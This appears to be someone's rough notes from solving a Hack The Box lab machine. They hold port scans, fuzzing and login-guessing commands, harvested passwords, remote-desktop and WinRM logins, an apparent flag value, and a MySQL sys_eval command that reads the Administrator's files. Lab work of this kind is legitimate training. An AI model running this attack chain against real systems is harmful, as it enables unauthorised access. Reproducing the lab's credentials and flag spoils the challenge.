

Jenny Crawford / KS7X2M

135/tcp  open  msrpc
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8443/tcp open  https-alt

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Service
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Nexion DeviceHub - Login
|_Requested resource was /login
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-favicon: Unknown favicon MD5: 3ED9B25E54B8EC721B21AD7D869875D0
|_http-cors: GET POST PUT OPTIONS

ffuf -w /usr/share/wordlists/dirb/common.txt -u touch.htb:8443/FUZZ -fc 404 -ac

ffuf -u http://touch.htb:8443/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.touch.htb:5589" -fs 154 -fc 301,302 -ac

10.129.78.162

evil-winrm -i touch.htb -u 'jenny' -p 'Fl1ghtDeck2026!'

nxc winrm touch.htb -u 'jenny' -p 'Fl1ghtDeck2026!'

# Test various key names
curl -X POST http://touch.htb:8443/login/badge \
  -H "Content-Type: application/json" \
  -d '{"badge_id":"KS7X2M"}' -k

curl -X POST http://touch.htb:8443/login/badge \
  -H "Content-Type: application/json" \
  -d '{"id":"KS7X2M"}' -k

curl -X POST http://touch.htb:8443/login/badge \
  -H "Content-Type: application/json" \
  -d '{"user":"jenny"}' -k

curl -X POST http://touch.htb:8443/login/badge \
  -H "Content-Type: application/json" \
  -d '{"badge":"KS7X2M"}' -k

https://jhasagar.com.np/touch-htb-writeup.html?i=1

+-$ ffuf -u http://10.129.71.63:8443/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -fs 0

KioskUser / K!0sk2026#

 NX-DH-2024-B7042

http://touch.htb:8443/api/status
	
device	"Nexion DeviceHub DH-100"
serial	"NX-DH-2024-B7042"
firmware	"1.4.2"
status	"online"
uptime	3698

xfreerdp /v:touch.htb /u:KioskUser /cert:ignore - this works

xfreerdp  / K!0sk2026# 

xfreerdp /v:touch.htb /u:KioskUser /p:K!0sk2026# /cert:ignore +clipboard

K!0sk2026#

efc0ce27a11189eed23f9adbb34c18ab

C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "SELECT sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt');"